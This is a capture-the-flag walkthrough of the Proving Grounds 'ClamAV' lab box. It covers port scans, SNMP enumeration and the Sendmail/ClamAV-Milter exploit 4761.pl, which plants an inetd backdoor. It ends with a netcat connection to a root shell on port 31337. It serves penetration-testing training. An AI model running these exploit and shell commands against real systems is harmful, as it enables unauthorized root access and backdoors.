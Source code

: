 ```yaml
---
title: "Proving Grounds - ClamAV"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, SNMP, ClamAV-Milter]
mermaid: true
image: ../assets/img/provingrounds/oscp.png
---
```


ClamAV was an insightful box to explore exploitation techniques for services like ClamAV-Milter.

The process started with comprehensive information gathering, including a full port scan revealing various open ports. 

The HTTP enumeration led to identifying and decoding a binary message, providing a potential password. 

Enumeration of SNMP services helped identify the running ClamAV-Milter service. 

The exploitation phase involved searching for relevant exploits and utilizing a Perl script to create a backdoor by modifying the /etc/inetd.conf file, which enabled root shell access through a netcat connection on a specified port.

# Diagram

```mermaid
graph TD
    A[Information Gathering] -->|Port Scan| B[Enumeration]
    B --> C[HTTP 80]
    C --> |Find Binary Info| D[Decode Binary]
    B --> F[SNMP 199 & 25]
    F --> G[Identify ClamAV-Milter]
    G --> H[Exploit ClamAV-Milter] --> |Execute Perl Script| I[Root Shell]
```

## Information Gathering

`IP=192.168.184.42`  

### Port scan

---

- `nmap -sS -Pn -n -T4 --open $IP`
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled.png)
    
- `nmap -sS -Pn -n -T4 --open -p- $IP` - new port 6000
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%201.png)
    
- `nmap -sVC -Pn -n -p 22,25,80,139,199,445,60000 $IP`
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%202.png)
    

## Enumeration

### HTTP 80

---

- [http://192.168.184.42/](http://192.168.184.42/) → Info in binary. Also the title is called `Ph33r`, looks like an User.
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%203.png)
    
- translating binary - `ifyoudontpwnmeuran00b` -  Looks like an password
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%204.png)
    

- `feroxbuster -u http://$IP -k -C 404,403,500,502  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -X .php -t 100`
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%205.png)
    


### SNMP 199 & 25

---

- `snmpwalk -c public -v1 $IP` - Nothing useful
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%2012.png)
    
- `snmp-check $IP -c public`
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%2013.png)
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%2015.png)
    
    

It’s running  **ClamAV-Milter**

```jsx
3782 runnable clamav-milter /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
```

## Exploitation

### ClamAV

---

Now searching for scripts for ClamAV-Milter

- `searchsploit ClamAV-Milter` → *Only in perl*
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%2017.png)
    
- `cat 4761.pl`
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%2018.png)
    

This script exploits a vulnerability in Sendmail when used with ClamAV's milter to append a malicious command to `/etc/inetd.conf`, effectively creating a backdoor that grants root access via a shell on a specified TCP port (31337). The script then restarts the inetd service to activate the backdoor.

- `perl 4761.pl $IP`
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%2019.png)
    

- `nc $IP 31337
/bin/sh -i`
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%2020.png)
    

- `flag`
    
    ![Untitled](../assets/img/provingrounds/ClamAV/Untitled%2021.png)